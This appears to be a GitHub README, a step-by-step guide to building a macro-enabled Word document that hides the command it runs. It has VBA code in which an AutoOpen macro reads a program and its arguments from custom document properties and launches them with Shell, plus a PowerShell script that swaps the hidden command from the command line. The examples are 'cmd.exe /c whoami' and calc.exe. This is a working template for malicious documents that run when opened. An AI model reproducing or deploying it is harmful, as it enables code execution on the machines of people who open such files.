


# Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell #ClickingStuffIsHard #TheGUIWasAMistake. 

## Create Document Template
1. Create a new word document. 


2. Select `View`, `Macros`, `View Macros`.


3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 


4. Copy & Paste the code below into the codebox and click on the `Save` icon.

```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.CustomDocumentProperties("cmd").Value
    strArgument = doc.CustomDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

5. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 


6. Click the `X` to close the Macro dialog box. 


7. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.


8. Select the `Custom` tab. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`


8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`


9. Once both values have been added, Click OK to close the `Properties` dialog box. 


9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docm`. 


## PowerShell

```powershell
# Initiate Word
$Word = New-Object -ComObject Word.Application
# Set Word to be visible
$Word.Visible = $true
# Open the template document (Modify the directory if different)
$Document = $Word.Documents.Open('C:\temp\cmd_exec.docm')

$binding = "System.Reflection.BindingFlags" -as [type];        
$CustomProperties = [System.__ComObject]$Document.CustomDocumentProperties
            [Array]$propertyName = "cmd"
            [Array]$propertyValue = "calc.exe"
            #Get property value
            $myProperty = [System.__ComObject].InvokeMember("Item", $binding::GetProperty, $null, $customProperties, $propertyName)
            $myPropertyValue  = [System.__ComObject].InvokeMember("value",$binding::GetProperty,$null,$myProperty,$null);
            #Set property value
            [System.__ComObject].InvokeMember("Value",$binding::SetProperty,$null,$myProperty,$propertyValue)
```